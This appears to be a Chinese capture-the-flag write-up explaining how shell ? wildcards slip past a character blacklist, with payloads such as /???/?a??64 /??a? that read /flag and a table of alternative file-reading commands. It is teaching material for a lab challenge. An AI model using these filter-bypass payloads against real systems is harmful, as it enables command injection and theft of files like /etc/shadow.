 #### level 6 - 通配符

在前面我们有介绍各类通配符，有说到 ? 可以进行匹配执行命令

可以尝试在Linux终端中做下面的几个实验，使用echo方法输出?匹配的字符串：

```
bash-5.1# echo /???/?????? 
/bin/base64 /bin/getopt /bin/gunzip /bin/ionice /bin/iostat /bin/ipcalc /bin/mktemp /bin/mpstat /bin/umount /bin/usleep /dev/mqueue /dev/random /dev/stderr /dev/stdout /etc/conf.d /etc/group- /etc/init.d /etc/passwd /etc/shadow /etc/shells /etc/ssl1.1 /sys/kernel /sys/module

bash-5.1# echo /???/???
/bin/ash /bin/cat /bin/pwd /bin/rev /bin/sed /bin/tar /dev/pts /dev/shm /dev/tty /etc/apk /etc/opt /etc/ssl /lib/apk /sys/bus /sys/dev /usr/bin /usr/lib /usr/src /var/lib /var/log /var/opt /var/run /var/tmp /var/www
```

观察正则

```
[b-zA-Z_@#%^&*:{}\-\+<>\"|`;\[\]]
```

可以发现，我们可以使用一个字母 a 和数字，此时：

```
bash-5.1# echo /???/?a?
/bin/cat /bin/tar
bash-5.1# echo /???/?a? /??a?
/bin/cat /bin/tar /flag
bash-5.1# echo /???/?a??64
/bin/base64
bash-5.1# echo /???/?a??64 /??a?
/bin/base64 /flag
```

所以本题可用的payload：

```
/???/?a??64 /??a?  # 使用 /bin/base64 /flag
/bin/?a? /??a?  # 使用 /bin/cat /flag
```

**扩展 - 读文件的程序**

| 命令      | 描述                                                         |
| --------- | ------------------------------------------------------------ |
| `cat`     | 从第一行开始显示内容，并将所有内容输出                       |
| `tac`     | 从最后一行倒序显示内容，并将所有内容输出                     |
| `more`    | 根据窗口大小，一页一页地显示文件内容                         |
| `less`    | 根据窗口大小，显示文件内容，可以使用键盘上的 [Pg Dn] 和 [Pg Up] 翻页 |
| `head`    | 用于显示文件的头几行                                         |
| `tail`    | 用于显示文件的尾几行                                         |
| `nl`      | 类似于 `cat -n`，显示时输出行号                              |
| `tailf`   | 类似于 `tail -f`，实时显示文件尾部内容                       |
| `sort`    | 读取并排序文件内容                                           |
| `od`      | 以二进制的方式读取文件内容                                   |
| `vi`      | 一种编辑器，能查看文件内容                                   |
| `vim`     | 一种编辑器，能查看文件内容                                   |
| `uniq`    | 过滤重复行，能查看文件内容                                   |